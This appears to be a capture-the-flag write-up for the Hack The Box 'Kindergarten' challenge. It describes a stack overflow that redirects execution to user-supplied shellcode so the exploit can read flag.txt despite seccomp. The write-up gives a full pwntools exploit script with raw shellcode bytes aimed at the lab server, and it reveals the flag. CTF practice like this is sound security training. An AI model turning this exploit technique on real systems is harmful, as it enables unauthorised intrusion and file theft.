

# Kindergarten

The task has a simple buffer overflow located in function kinder. After accepting 4 symbols “y” or “Y” the application allows to enter one more question which is written into a memory buffer which is less than the number of bytes the app allows to read.
Since the stack has no protections it is possible to overwrite the RIP address. An appropriate address for execution is 0x40093F located in function “kids_are_not_allowed_here”. This function executes buffer ans which is in bss section and has user-controlled data inside (written before the input of question starts).
The problem is that the binary has seccomp enabled which prohibits use of some syscalls. It is impossible to call execve to gain remote shell session. That is why it was necessary to write shellcode to read file flag.txt located near the vulnerable binary on the server. The shellcode is given in the exploit code:

```Python
from pwn import *
context.terminal = ['terminator', '-e']
#io = process("./kindergarten")
io = remote("docker.hackthebox.eu", 30323)
d = io.read()
print(d)
shellcode = b"\x31\xF6\xF7\xE6\x52\x48\xC7\xC1\x78\x74\x00\x00\x51\x48\xB9\x2E\x2F\x66\x6C\x61\x67\x2E\x74\x51\x54\x5F\xB0\x02\x0F\x05\x50\x5F\x54\x5E\x52\x52\x52\x52\x58\x66\xBA\x99\x09\x0F\x05\x5F\xFF\xC7\x50\x5A\x58\xFF\xC0\x0F\x05\x58\xB0\x3C\x0F\x05"
io.sendline(shellcode)
for i in range(4):
    d = io.read()
    print(d)
    io.sendline(b'Y')
    d = io.read()
    print(d)
    io.sendline(b'AAAA')
payload = b"A"*140 + p64(0x40093F)
io.sendline(payload)
io.interactive()
```

The successful exploitation can be seen on Figure 1.



Figure 2 – The successful expluatation

Flag: HTB{2_c00l_4_$cH0oL!!}.
